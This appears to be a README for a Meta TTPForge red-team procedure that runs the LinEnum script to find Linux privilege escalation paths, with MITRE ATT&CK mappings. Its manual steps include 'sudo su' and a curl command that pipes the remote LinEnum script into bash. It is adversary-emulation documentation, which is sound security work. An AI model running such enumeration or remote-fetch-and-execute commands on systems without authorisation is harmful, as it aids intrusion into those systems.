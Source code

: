 # Identify Privilege Escalation Paths with linEnum

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP helps identify privilege escalation paths using linEnum, a tool that automates the discovery of local privilege escalation vulnerabilities on Linux-based operating systems.

## Arguments

- **escalate_privileges**: A boolean flag indicating whether to run the TTP as root or not. Default is false.
- **download_link**: The URL to download the latest version of linPEAS from GitHub. Default is [https://raw.githubusercontent.com/rebootuser/LinEnum/65475312171107e9373dd8b06c9757610f0653d8/LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/65475312171107e9373dd8b06c9757610f0653d8/LinEnum.sh)

## Pre-requisites

1. A Linux-based operating system.
2. Bash shell.

## Examples

You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//privilege-escalation/linux/identify-privilege-escalation-paths-with-linenum/identify-privilege-escalation-paths-with-linenum.yaml \
  --arg escalate_privileges=true
```

## Steps

1. **ensure-root-user-if-required**: This step checks if the TTP needs to be run as root and ensures that it is being executed as the root user.
2. **download-and-run-linenum**: This step downloads the latest version of linEnum from GitHub and executes it with bash.

## Manual Reproduction Steps

```
# Escalate privileges to root (optional - being root gives you more info)
sudo su

# Download and run LinEnum
curl -sL https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0003 Execution
  - TA0007 Discovery
- **Techniques**:
  - T1059 Command and Scripting Interpreter
  - T1087 Account Discovery
  - T1083 File and Directory Discovery
  - T1057 Process Discovery
  - T1069 Permission Groups Discovery
  - T1518 Software Discovery
  - T1082 System Information Discovery
  - T1033 System Owner/User Discovery
  - T1007 System Service Discovery
- **Subtechniques**:
  - T1059.004 Command and Scripting Interpreter Unix Shell
